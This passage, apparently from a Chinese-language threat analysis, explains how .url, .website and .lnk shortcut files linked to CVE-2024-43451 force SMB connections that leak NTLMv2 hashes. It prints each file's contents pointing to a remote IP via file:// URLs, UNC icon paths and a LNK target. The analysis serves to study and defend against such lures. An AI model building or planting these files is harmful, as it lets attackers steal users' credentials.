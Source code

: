 .URL文件用于创建指向Web地址的Internet快捷方式， URL是存储网站地址的纯文本文件，双击.url文件时，默认的Web浏览器将打开相应的URL。 .URL文件类型还可以通过UNC（通用命名约定）路径引用网络资源， UNC路径指向网络位置，通常的格式为：  
  
\\\\ServerName\\SharedFolder\\Resource  
  
此路径表示网络共享（例如，另一台计算机上的共享文件夹或文件），创建的连接主要基于所使用的网络协议以及如何共享资源。  
  
使用UNC路径建立的最常见的连接类型涉及服务器消息块（SMB）协议，触发支持UNC路径的文件可能会导致SMB（服务器消息块）连接，该连接可能会泄露敏感信息，包括NTLMV2哈希。  
  
该存档中嵌入的.URL文件与CVE-2024-43451漏洞相关联，该漏洞同样在野外被积极利用，利用涉及包含恶意代码的.url 文件，这些代码几乎无需通过用户过多交互即可执行，这些交互包括右键单击文件、删除或执行拖放操作。  
```
[InternetShortcut]
URL=file://159.196.128[.]120/
IconIndex=4
HotKey=0
IDList=
IconFile=\\\\159.196.128[.]120\\share\\pentestlab.ico

```  
### .website  
  
.website 文件的功能类似于 .url 文件，但包含一些为现代网络应用设计的额外元数据，这些文件存储 URL 信息以及额外的数据，例如浏览器设置、特定应用的设置和用于固定网络应用的图标，使它们比简单的 .url 文件更先进，它们还可以通过 UNC 路径链接到本地或网络资源，一旦用户手动与这些文件交互，就会触发 SMB 连接。  
```
[{000214A0-0000-0000-C000-000000000046}]
Prop3=19,2
Prop4=31,go.microsoft.com
[InternetShortcut]
URL=file://159.196.128[.]120/
[{A7AF692E-098D-4C08-A225-D433CA835ED0}]
Prop5=3,0
Prop9=19,0
Prop2=65,2C0000000000000001000000FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF310000002B000000710600006204000056
Prop6=3,1
[{9F4C2855-9F79-4B39-A8D0-E1D42DE1D5F3}]
Prop5=8,Microsoft.Website.B4BD2547.99055A5E

```  
### xd.lnk  
  
.lnk 文件扩展名用于 Windows 快捷方式，快捷方式本质上是对另一个文件、文件夹或程序的指针或引用。  
  
当双击 .lnk 文件时，Windows 会自动打开链接的目标文件或应用程序，这可能是一个程序、文档，或者可以用来通过 UNC 路径指向网络资源。  
  
一旦 LNK 文件的目标路径是远程服务器，就会触发 SMB 连接，并在 NTLMSSP_AUTH 消息后，客户端无意中泄露用户的 NTLMV2-SSp，以下 LNK 文件作为此存档的一部分分发，需要手动用户交互来触发 SMB 连接。以下是 LNK 元数据：  
```
Target Path      : \\\\159.196.128.120
Working Directory: None
Arguments        : None
Description      : None
Icon Location    : None
Relative Path    : ..\\..\\..\\..\\Windows
Show Command     : Normal

```  
  